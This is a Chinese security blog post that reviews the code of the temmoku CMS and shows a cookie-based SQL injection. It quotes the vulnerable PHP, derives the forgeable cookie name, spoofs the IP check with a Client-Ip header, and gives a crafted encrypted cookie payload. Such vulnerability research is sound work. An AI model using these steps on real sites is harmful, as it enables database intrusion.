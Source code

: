 ```yaml
---
title: temmoku home版 t1.15 前台sqli
tags: 
  - cms
categories: codereview
date: 2019-02-21 21:09:44
---
```


# 0x00
很久没有审计了，找了个简单的cms审计
这次找的是temmoku，他修改了thinkphp作为他的底层框架。
代码写的很难受，写出来的界面也很难受，所以找了个注入就不想看了，记录一下。

# 0x01 前台注入

这套cms，每个控制器都继承了`temmoku/controller.php`，其中controller构造函数做了相关权限控制
找到`temmoku/controller.php`，定位到__construct函数

```php
function __construct()
{
 $this->_view     =   new view();
    if(!cookie::get('USER_First_Visit')){
      cookie::set('USER_First_Visit',$_SERVER['REQUEST_TIME_FLOAT']);
    }
$lock=APP_PATH.'conf/install.lock';
  if(is_file($lock)){
    if('admin'!=MODULE && 'user'!=MODULE){
      hook_listen('index_power_begin');
    }
    //验证普通会员状态
    $this->User_Check();// 注入

    if('admin'!=MODULE && 'user'!=MODULE){
      hook_listen('index_power_end');
    }

  }
}
```
注意到第13行，调用了User_Check函数，这个函数完成了从cookie中获取到登陆后的加密字串，解密后再查询的操作。
```php
private function User_Check(){
      $ORDINARY_MEMBER=cookie::get('ORDINARY_MEMBER');
      if($ORDINARY_MEMBER){
      if(json_encode($ORDINARY_MEMBER)){
        $ORDINARY_MEMBER=decode($ORDINARY_MEMBER);
        list($uid,$password,$onlineip)=$r =explode(' ',$ORDINARY_MEMBER);
        if(!intval($uid) || !$password || C('ONLINEIP') != $onlineip || !$onlineip){
          cookie::del('ORDINARY_MEMBER');
          return;
        }
        $data = (new lib\user)->Cookie_Login($uid,$password);// TODO 伪造cookie 对password做数据注入
        if('0'===$data['code']){
          $data['UserDB']['thumb'] ? $data['UserDB']['thumb']=get_img_url($data['UserDB']['thumb']) : $data['UserDB']['thumb']='/public/global/images/default.png';
          C('MYDB',$data['UserDB']);
          $group=C('USER_GROUP.'.$data['UserDB']['groupid']);
          $group['setting']=unserialize($group['setting']);
          C('MYGROUP',$group);
        }else{
          cookie::del('ORDINARY_MEMBER');
          return;
        }
      }else{
        cookie::del('ORDINARY_MEMBER');
        return;
      }
    }
}
```
从cookie中获得ORDINARY_MEMBER相关的cookie内容，并交由decode解密，解密出uid,password,onlineip，直接带入到Cookie_Login函数，我们先来看一下这个函数，等会再讲如何构造加密串
```php
public function Cookie_Login($uid,$password){
    $UserDB=$this->select('*')->from(jab."user")->where("uid='$uid' AND password='$password'")->row();
    if($UserDB){
      return array("code"=>'0','text'=>"登录成功",'UserDB'=>$UserDB);
    }else{
      return array("code"=>'21','text'=>"密码错误");
    }
}
```
可以看到函数内第一句，进行了数据库查询，熟悉thinkphp的同学肯定知道where函数拼接参数同样能造成注入，那么问题就是如何构造出password来进行注入了，回到上面提到的decode函数，来看一下函数内容
```php
    /**
     * 解密函数
     * @param string $txt 需要解密的字符串
     * @param string $key 密匙
     * @return string 字符串类型的返回结果
     */
function decode($txt, $key = '', $ttl = 0){
    if (empty($txt)) return $txt;
    if (empty($key)) $key = md5(C('MD5'));
    // ... 后面的相关数学操作无关紧要
}
```
注意到在User_Check函数里调用decode时，并没有指定key，那么默认就是取配置文件中的MD5，其值默认为空，所以知道了key以及对应的加密函数，我们就能自己构造相关内容。
其中还有一个要注意的地方是，我们需要同时构造cookie的键内容和onlineip，只有当cookie中名字对时才能取到，只有当onlineip对时才能进行数据库查询。
先来看第一个，构造cookie名
定位`temmoku/lib/cookie.php`

```php
public static function get($key){
  $key=C('cookie_is_en')=='1' ? 'temmoku_'.md5(C('MD5')."_".$key) : 'temmoku_'.$key;
  return empty($_COOKIE[$key]) ? 0 : $_COOKIE[$key];
}
```
默认cookie_is_en为1，所以是加密的，cookie的名字为`temmoku_+md5("_ORDINARY_MEMBER")`
因为MD5默认为空，这样我们就能推出cookie名为`temmoku_c3daef9b5af4ca25121457287fd0c2ac`
其次我们需要构造onlineip,来看看这个onlineip是怎么获取的
定位`temmoku/app.php`

```php
private static function default_config(){
  // ...
  C('onlineip',getRealIp());// TODO 可伪造Ip
  define('onlineip', getRealIp());
  // ...
}
```
继续向下
```php
function getRealIp(){
  $ip=false;
  if(!empty($_SERVER["HTTP_CLIENT_IP"])){
    $ip = $_SERVER["HTTP_CLIENT_IP"];
  }
  if (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
      $ips = explode (", ", $_SERVER['HTTP_X_FORWARDED_FOR']);
    if ($ip) { array_unshift($ips, $ip); $ip = FALSE; }
    for ($i = 0; $i < count($ips); $i++) {
        if (!preg_match ("/^(10│172.16│192.168)./", $ips[$i])) {
            $ip = $ips[$i];
            break;
        }
    }
  }
  return ($ip ? $ip : $_SERVER['REMOTE_ADDR']);
}
```
可以看出用Client-Ip就能伪造，那么现在问题都解决了，可以构造加密串了

# 0x02 构造加密串

```php
<?php
/**
 * Created by PhpStorm.
 * User: wh1t3P1g
 * Date: 2019/2/21
 * Time: 19:48
 */

function decode($txt, $key = '', $ttl = 0){
    ...
}

function encode($txt, $key = ''){
    ...
}

echo encode('1550750916.778 \' 127.0.0.1');
```
得到加密串`iBuikbGflt4lk4LiZ747G7NBIm9uPlLKikooVtsqagnfQIk1NZI0-rW`，直接加在cookie里就能造成系统出现数据库错误

# 0x03 总结
这个漏洞是比较经典的问题，用了加密后，开发者默认认为解密后的字符串是安全的，直接拼接到数据库操作上导致的注入。




